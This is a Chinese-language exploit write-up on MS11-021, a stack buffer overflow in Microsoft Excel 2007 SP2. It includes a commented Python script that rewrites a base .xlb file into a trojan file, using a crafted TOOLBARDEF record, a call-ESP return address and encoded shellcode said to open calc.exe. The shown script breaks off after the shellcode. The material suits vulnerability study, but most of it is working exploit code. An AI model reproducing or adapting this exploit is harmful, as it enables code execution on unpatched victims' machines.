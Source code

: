 ## 漏洞利用

运行 exploit.py 程序修改 src.xlb 基础文件生成 exploit.xlb 木马文件（shellcode 是打开计算器）

```sh
python exploit.py
```

## Exploit 分析

这是一个比较典型的栈溢出 exp，详见注释即可

```python
'''
# Full info : http://www.abysssec.com/blog/2011/11/02/microsoft-excel-2007-sp2-buffer-overwrite-vulnerability-ba-exploit-ms11-021/
# Microsoft Office Excel 2007 SP2 Code Execution Exploit 
# Exploit for MS11-021 patch
# Tested on Microsoft Office Excel 2007 (xp) SP2 (Excel.exe . Version = 12.0.6545.5000)
'''

import sys

def main():
   
    try:
        #* 打开基础文件
        fdR = open('src.xlb', 'rb+')
        strTotal = fdR.read()
        #* 修改了 0x33D / 829 字节
        str1 = strTotal[:1556] #* 0x613
        str2 = strTotal[2385:] #* 0x951
        
        #* 构造 TOOLBARDEF Record
        recordType = "\xA7\x00"
        recordLenght = "\x04\x00"
        field1 = "\xB0"
        field2 = "\x0F\x0C"
        field3 = "\x00"
        field4 = "\x3C\x00"
        field5 = "\x00\x03"
        
        record = recordType + recordLenght + field1 + field2 + field3 + field4 + field5
        
        #* Shellcode 地址，现在一般写成 ret_addr
        eip = "\xDF\xD6\xD5\x3B"    # Call ESP
        
        # shellcode calc.exe
        shellcode = "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
        shellcode += '\x89\xE5\xD9\xEE\xD9\x75\xF4\x5E\x56\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51\x5A\x6A\x41\x58\x50\x30\x41\x30\x41\x6B\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4A\x49\x4B\x4C\x4B\x58\x51\x54\x43\x30\x43\x30\x45\x50\x4C\x4B\x51\x55\x47\x4C\x4C\x4B\x43\x4C\x43\x35\x44\x38\x45\x51\x4A\x4F\x4C\x4B\x50\x4F\x44\x58\x4C\x4B\x51\x4F\x47\x50\x45\x51\x4A\x4B\x51\x59\x4C\x4B\x46\x54\x4C\x4B\x43\x31\x4A\x4E\x46\x51\x49\x50\x4A\x39\x4E\x4C\x4C\x44\x49\x50\x42\x54\x45\x57\x49\x51\x48\x4A\x44\x4D\x45\x51\x49\x52\x4A\x4B\x4B\x44\x47\x4B\x46\x34\x46\x44\x45\x54\x43\x45\x4A\x45\x4C\x4B\x51\x4F\x47\x54\x43\x31\x4A\x4B\x43\x56\x4C\x4B\x44\x4C\x50\x4B\x4C\x4B\x51\x4F\x45\x4C\x45\x51\x4A\x4B\x4C\x4B\x45\x4C\x4C\x4B\x43\x31\x4A\x4B\x4C\x49\x51\x4C\x47\x54\x45\x54\x48\x43\x51\x4F\x46\x51\x4C\x36\x43\x50\x46\x36\x45\x34\x4C\x4B\x50\x46\x50\x30\x4C\x4B\x47\x30\x44\x4C\x4C\x4B\x44\x30\x45\x4C\x4E\x4D\x4C\x4B\x42\x48\x44\x48\x4D\x59\x4B\x48\x4B\x33\x49\x50\x43\x5A\x46\x30\x45\x38\x4C\x30\x4C\x4A\x45\x54\x51\x4F\x42\x48\x4D\x48\x4B\x4E\x4D\x5A\x44\x4E\x50\x57\x4B\x4F\x4A\x47\x43\x53\x47\x4A\x51\x4C\x50\x57\x51\x59\x50\x4E\x50\x44\x50\x4F\x46\x37\x50\x53\x51\x4C\x43\x43\x42\x59\x44\x33\x43\x44\x43\x55\x42\x4D\x50\x33\x50\x32\x51\x4C\x42\x43\x45\x31\x42\x4C\x42\x43\x46\x4E\x45\x35\x44\x38\x42\x45\x43\x30\x41\x41'
```